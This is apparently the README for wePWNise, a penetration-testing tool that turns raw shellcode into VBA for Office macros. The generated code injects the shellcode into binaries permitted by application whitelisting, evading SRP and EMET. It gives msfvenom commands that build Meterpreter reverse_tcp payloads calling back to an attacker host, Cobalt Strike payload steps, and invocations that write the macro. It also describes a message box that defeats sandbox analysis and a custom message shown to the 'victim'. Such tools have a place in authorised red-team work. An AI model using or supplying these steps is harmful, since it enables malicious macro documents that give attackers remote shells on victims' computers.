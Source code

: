 #wePWNise

wePWNise is proof-of-concept Python script which generates VBA code that can be used in Office macros or templates. It was designed with automation and integration in mind, targeting locked down environment scenarios. The tool enumerates Software Restriction Policies (SRPs) and EMET mitigations and dynamically identifies safe binaries to inject payloads into. wePWNise integrates with existing exploitation frameworks (e.g. Metasploit, Cobalt Strike) and it also accepts any custom payload in raw format.

##Prerequisites

* Python termcolor package. To install run: pip install termcolor

##Command line arguments

To start using wePWNise, first take a look at the options it supports:

```
usage: wepwnise.py [-h] -i86 <x86_shellcode> -i64 <x64_shellcode> [--inject64]   
                   [--out <output_file>] [--msgbox] [--msg <window_message>]

optional arguments:   
  -h, --help            show this help message and exit   
  -i86 <x86_shellcode>  Input x86 raw shellcode   
  -i64 <x64_shellcode>  Input x64 raw shellcode   
  --inject64            Inject into 64 Bit. Set to False when delivering x86   
                        payloads only. Default is True   
  --out <output_file>   File to output the VBA macro to   
  --msgbox              Present messagebox to prevent automated analysis.   
                        Default is True.   
  --msg <window_message>   
                        Custom message to present the victim if --msgbox is   
                        set to True
```

wePWNise requires both 32 and 64 bit raw payloads in order to be able to deliver the appropriate type when it lands on an unknown target. However, if only an x86 architecture is targeted, a dummy 64 bit payload must be provided to replace the missing code. 

In order to defeat certain automated analysis configurations, a message box opens upon execution of the code. The text of the message box can be altered by defining its value in the --msg parameter. To disable this functionality set the --msgbox parameter to False.

Due to performance conditions that may be introduced as a result of long SRPs/EMET policies, wePWNise reads two configuration files (binary-paths.txt and directory-paths.txt) that contain a list of executables and directories which are less likely to be monitored to be checked first. By editing the contents of those files the user can define their own choices instead. If the files are empty, wePWNise will directly start reading the SPRs/EMET policies as these would be defined within the Registry and make its injection choice purely based on the retrieved information.


##Usage examples

The following sections describe some basic usage examples of wePWNise.

###Metasploit payloads

First the payloads for both x86 and x64 architectures in raw format and ensure that the Metasploit listeners are configured appropriately.

`$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -o /payloads/msf86.raw`   
`$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -a x86_64 -o /payloads/msf64.raw`

Then point wePWNise to the generated payloads and direct the output to msf_wepwn.txt

`$ wepwnise.py -i86 /payloads/msf86.raw  -i64 /payloads/msf64.raw --out /payloads/msf_wepwn.txt`

###Cobalt Strike payloads

To generate a raw payload in Cobalt Strike, navigate to the following menu and from the Output dropdown select the Raw format. Repeat the process and enable the x64 checkbox to produce a 64-bit payload.

Attacks > Packages > Payload Generator

Enter the generated payloads into wePWNise to generate the VBA code.

`$ wepwnise.py -i86 /payloads/cs86.raw  -i64 /payloads/cs64.raw  --msgbox False --out /payloads/cs_wepwn.txt`


###Custom payloads

In certain cases it may be the case that only an x86 payload be available. As wePWNise expects both a 32-bit and 64-bit payloads, in order to disable 64-bit injection create a dummy 64-bit file and set the --inject64 parameter to False.

```
$ echo "+" > /payloads/dummy64.raw
$ wepwnise.py -i86 /payloads/custom.raw  -i64 /payloads/dummy64.raw --inject64 False --out /payloads/wepwn86.txt
```

Similarly, to generate 64-bit payloads only, create a dummy x86 file and supply it in wePWNise's -i86 command line paramenter.

##License

wePWNise is released under a 3-clause BSD License and maintained by MWR InfoSecurity<link>